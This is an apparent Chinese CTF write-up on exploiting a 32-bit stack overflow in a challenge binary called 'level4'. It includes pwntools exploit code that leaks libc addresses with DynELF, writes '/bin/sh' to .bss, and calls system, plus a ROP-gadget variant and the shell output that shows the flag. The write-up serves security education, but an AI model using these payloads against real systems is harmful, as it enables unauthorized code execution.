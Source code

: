 第一次用DynELF，过程还是很坎坷

题目链接：https://pan.baidu.com/s/1wqI7YkGzVUefR6951k0pbA

提取码：and4

查壳发现开了NX，在ida里面发现存在栈溢出。system和/bin/sh都没有，且没有提供libc，于是选择用DynELF。

DynELF的使用条件:

不管有没有libc文件，要想获得目标系统的system函数地址，首先都要求目标二进制程序中存在一个能够泄漏目标系统内存中libc空间内信息的漏洞。同时，由于我们是在对方内存中不断搜索地址信息，故我们需要这样的信息泄露漏洞能够被反复调用。以下是大致归纳的主要使用条件：

**1）目标程序存在可以泄露libc空间信息的漏洞，如read\@got就指向libc地址空间内；**

**2）目标程序中存在的信息泄露漏洞能够反复触发，从而可以不断泄露libc地址空间内的信息。**

当然，以上仅仅是实现利用的基本条件，不同的目标程序和运行环境都会有一些坑需要绕过。但通过DynELF只能泄露出system的地址，并不能找到’/bin/sh’，所以我们需要把它写到bss段里来执行。

先找到覆盖位置，（0x88+4）的位置开始

总体的思路是布置栈空间来执行。第一次泄露出system的地址返回到main函数，第二次通过read将’/bin/sh\\x00’写到bss段里再返回main，第三次执行system(‘/bin/sh’)

先构造leak函数

>   def leak(address):

>   payload = junk + p32(write_plt) + p32(main) + p32(1) + p32(address) + p32(4)

>   r.sendline(payload)

>   leaked = r.recv(4)

>   print "[%s] -\> [%s] = [%s]" % (hex(address), hex(u32(leaked)),
>   repr(leaked))

>   return leaked

>   d=DynELF(leak,elf=ELF('level4'))

>   sys_addr=d.lookup('system','libc')

泄露出system的地址并且返回到了main

第二次布置栈，通过read将’/bin/sh\\x00’写到bss里面，再返回main

>   payload2='a'\*140+p32(read_plt)+p32(main)+p32(0)+p32(bss_addr)+p32(8)

>   r.send(payload2)

>   r.send('/bin/sh\\x00')

注意，第二个输入要用send而不是sendline否则会发生错误，第一个随意

第三次布置栈执行system

>   payload3='a'\*140+p32(sys_addr)+'a'\*4+p32(bss_addr)

>   r.sendline(payload3)

>   r.interactive()

拿到shell

>   [\*] Switching to interactive mode

>   \$ ls

>   flag

>   level4

>   \$ whoami

>   ctf

>   \$ cat flag

>   CTF{882130cf51d65fb705440b218e94e98e}

>   \$

因为是32位的题，所以可以在布置栈来解题，但如果是64位的题就不能了，

因为根据X86_64
ABI的调用约定，函数间传递参数不再以压栈的方式，而是以寄存器方式传递参数，前面6个参数依次以rdi,
rsi, rdx, rcx,
r8和r9寄存来传递。在Linux系统，64位架构只使用48位的虚拟地址空间，也即每个地址高16位全部为0，因此在64位系统上，地址已天然零化。

所以这题我们还可以用ROP来做，将read所需要的三个参数通过三个pop弹出。ROPgadget可以帮我们找到是否有3个pop满足条件

>   \# ROPgadget --binary level4 --only 'pop\|ret'

>   Gadgets information

>   ============================================================

>   0x0804850b : pop ebp ; ret

>   0x08048508 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret

>   0x080482f1 : pop ebx ; ret

>   0x0804850a : pop edi ; pop ebp ; ret

>   0x08048509 : pop esi ; pop edi ; pop ebp ; ret

>   0x080482da : ret

>   0x080483ce : ret 0xeac1

>   Unique gadgets found: 7

我们用这个0x08048509构造payload

>   payload ='a'\*140 + p32(read_plt) + p32(ppr) + p32(0)+ p32(bss_addr) +
>   p32(8)

>   payload+=p32(sys_addr) + p32(0xdeadbeef) + p32(bss_addr)

>   r.sendline(payload)

>   r.sendline('/bin/sh\\x00')

拿到shell。

参考链接：<https://www.anquanke.com/post/id/85129>
